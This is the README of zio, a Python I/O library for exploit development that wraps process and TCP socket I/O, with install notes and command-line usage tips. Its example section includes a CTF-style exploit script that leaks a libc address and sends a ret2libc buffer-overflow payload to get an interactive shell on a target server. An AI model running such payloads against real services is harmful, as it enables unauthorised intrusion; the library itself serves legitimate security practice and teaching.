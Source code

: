 
# zio

[![Build Status](https://travis-ci.org/zTrix/zio.png)](https://travis-ci.org/zTrix/zio)

[zio] is an easy-to-use io library for pwning development, supporting an unified interface for local process pwning and TCP socket io.

The primary goal of [zio] is to provide unified io interface between process stdin/stdout and TCP socket io. So when you have done local pwning development, you only need to change the io target to pwn the remote server.

The following code illustrate the basic idea.

```python
from zio import *

debug_local = True

if debug_local:
    io = zio('./buggy-server')            # used for local pwning development
else:
    io = zio(('1.2.3.4', 1337))           # used to exploit remote service

io.read_until(b'Welcome Banner')
io.write(your_awesome_ropchain_or_shellcode)
# hey, we got an interactive shell!
io.interact()
```

## Advantage

 - Self contained single file installation, no extra dependency required. Copy it as you go and fire with no pain even without internet access.
 - Support both python2 and python3, no need to worry about the python version installed on some weired jump server provided by unknown.
 - Easy to learn and use.

If you want advanced features such as ELF parsing and more, try [pwntools](https://github.com/Gallopsled/pwntools).

## License

[zio] use [SATA License](LICENSE.txt) (Star And Thank Author License), so you have to star this project before using. Read the [license](LICENSE.txt) carefully.

## Working Environment

 - Linux or OSX
 - Python 2.6, 2.7, 3.x

for windows support, a minimal version(socket-io only) [mini_zio](./mini_zio.py) is provided.

## Installation

This is a single-file project so in most cases you can just download [zio.py](https://raw.githubusercontent.com/zTrix/zio/master/zio.py) and start using.

pip is also supported, so you can also install by running 

```bash
$ pip install zio
```

## Examples
 
```python
from zio import *

debug_local = True

if debug_local:
    io = zio('./buggy-server')
else:
    io = zio((pwn.server, 1337))

for i in range(1337):
    io.writeline(b'add ' + str(i))
    io.read_until(b'>>')

io.write(b"add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + b"A" * 49 + b"\nshow\n")
io.read_until(b'A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = b'A' * 64 + l32(libc_system) + b'JJJJ' + l32(libc_binsh)
io.write(b'info ' + payload + b"\nshow\nexit\n")
io.read_until(b">>")
# We've got a shell;-)
io.interact()
```

## Document

### bytes vs unicode

zio works at `bytes` level. All params and return value should be bytes. (Although some methods support unicode for compatibility and fault tolerance)

The recommended practice is to use b'xxx' everywhere, which is supported by both python2 and python3 without ambiguity.

### about line break and carriage return

Just don't read b'\n' or b'\r', use `read_line()` instead

### Play with cmdline

Act like netcat

```
$ printf 'GET / HTTP/1.0\r\n\r\n' | ./zio.py baidu.com 80
```

Unhex

```
$ echo '3334350a' | ./zio.py -d unhex -w none -r none -i pipe -o pipe --show-input=0 cat
345
```

hexcat some file

```
$ cat somefile | ./zio.py -e hex -w none -r none -i pipe -o pipe --show-input=0 cat
```

show file in string repr

```
$ cat somefile | ./zio.py -e repr -w none -r none -i pipe -o pipe --show-input=0 cat
```

log vim key sequences and underlying io

```
$ zio --debug=zio.log vim
```

### Other fun usage

Talk with vim using code.

```
In [1]: from zio import *

In [2]: io = zio('vim', stdin=TTY, stdout=TTY)

In [3]: io.writeline(b'ihello world')
ihello world
Out[3]: 13

In [4]: io.writeline(b'\x1b:w hand_crafted_vim_file.txt')
w hand_crafted_vim_file.txt
Out[4]: 30

In [5]: io.writeline(b':q')
:q
Out[5]: 3

In [6]: io.exit_status()
Out[6]: 0

In [7]: !cat hand_crafted_vim_file.txt
hello world
```

You can even talk with vim for prefix and then interact by hand to continue normal action.

## Thanks (Also references)

 - [pexpect](https://github.com/pexpect/pexpect) I borrowed a lot of code from here
 - [sh](https://github.com/amoffat/sh)
 - python subprocess module
 - TTY related
   - http://linux.die.net/man/3/cfmakeraw
   - http://marcocorvi.altervista.org/games/lkpe/tty/tty.htm
   - http://www.linusakesson.net/programming/tty/

[zio]:https://github.com/zTrix/zio
